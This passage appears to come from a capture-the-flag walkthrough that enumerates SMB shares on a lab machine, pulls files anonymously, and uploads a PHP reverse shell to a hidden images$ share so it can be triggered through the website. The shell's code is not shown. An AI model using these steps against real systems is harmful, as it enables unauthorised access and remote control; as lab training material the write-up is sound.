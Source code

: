 <br>

## SMB Digging

`smbclient -L \\10.10.101.231`

```bash
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        images$         Disk      
        Installs$       Disk      
        IPC$            IPC       Remote IPC
        Users           Disk
```

When we connect to **Installs$** and try to view the files we get an accessed denied message which answers the 4th objective: "What hidden, non-standard share is only remotely accessible as an administrative account?"

Looking in the **Users** share:

`smbclient -N \\\\10.10.101.231\\Users`

Looking in the **Users** share shows files we can access and I **mget** them all:

```bash
smb: \> prompt
smb: \> recurse
smb: \> mget *
```

Nothing of interest to be found in them unfortunately.

Connecting to the **images$** share:

`smbclient -N \\\\10.10.101.231\\images$`

```bash
smb: \> ls
  .                                   D        0  Tue Jan 26 13:19:19 2021
  ..                                  D        0  Tue Jan 26 13:19:19 2021
  internet-1028794_1920.jpg           A   134193  Sun Jan 10 16:52:24 2021
  man-1459246_1280.png                A   363259  Sun Jan 10 16:50:49 2021
  monitor-1307227_1920.jpg            A   691570  Sun Jan 10 16:50:29 2021
  neon-sign-4716257_1920.png          A  1461192  Sun Jan 10 16:53:59 2021
```

This answers objective number 2: "What is the hidden share where images should be copied to?".

These are the same files we saw on the website under **/images**, so let's try and upload a reverse shell via SMB and then access the file via the website to get a connection back:

`put multi-os-rev-shell.php`

```bash
putting file multi-os-rev-shell.php as \multi-os-rev-shell.php (3.3 kb/s) (average 3.3 kb/s)
```
